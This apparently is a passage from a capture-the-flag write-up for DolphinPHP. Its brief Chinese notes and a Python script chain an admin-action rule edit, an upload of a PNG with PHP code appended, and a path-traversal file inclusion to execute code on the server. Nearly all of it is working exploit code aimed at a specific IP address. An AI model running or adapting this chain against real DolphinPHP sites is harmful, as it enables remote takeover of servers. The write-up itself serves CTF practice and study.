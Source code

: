 ```python
    modify_nickname()    
    modify_func("think\\__include_file")
    pic_id = upload()
    execute_function(pic_id)
       
```
 
## 解法二：正常图片后面拼接php代码
 * 上传图片，后面加shell，得到图片地址后包含即可
 * 更具有广泛性，不会有怪字符
 * 图片后可以加点随机字符，否则服务端图片id不会变


```python
import requests,os,gnureadline,base64
from urllib.parse import quote
headers = {
    "Accept": "11"
}
url = 'http://139.196.153.118:32060'
sess = requests.Session()
def signin():
    r = sess.get(
        url = f'{url}/admin.php/user/publics/signin.html',
        headers = {
            'Cookie':'dolphin_uid=1; dolphin_signin_token=ab5f486a24426d9158c99507da45ae3bac476dd6',
            'Accept':'111'
        },
    )

def modify_func(func_name):
    r = sess.post(
        url = f'{url}/admin.php/admin/action/edit/id/14.html',
        headers = headers,
        data = '__token__=bedf6d242ee21d3a37058f77f349d664&id=14&module=admin&name=attachment_delete&title=%E5%88%A0%E9%99%A4%E9%99%84%E4%BB%B6&remark=%E5%88%A0%E9%99%A4%E9%99%84%E4%BB%B6&rule=&log={}&status=1'.format(
            quote("[details|%s] test [details]" % func_name)
        )
    )

def upload(get_img_addr=False):
    r = sess.post(
        url = f'{url}/admin.php/admin/attachment/upload/dir/images/module/admin.html',
        headers = headers,
        files = {
            'file':('1.png',base64.b64decode(b'iVBORw0KGgoAAAANSUhEUgAAAAEAAAABAQAAAAA3bvkkAAAACklEQVR4nGNgAAAAAgABSK+kcQAAAABJRU5ErkJggg==')+b'<?php phpinfo();//' + os.urandom(10).hex().encode()) 
        },
    
    )
    if not get_img_addr:
        return r.json()['id']
    return r.json()['path']

def execute_function(pic_id, filename):
    r = sess.post(
        url = f'{url}/admin.php/admin/attachment/delete/_t/86ba77b6.html',
        headers = headers,
        data = f'ids[]={pic_id}&ids[]=/../../public{filename}'
    )
    print(r.text.split('<!DOCTYPE html>')[0])
```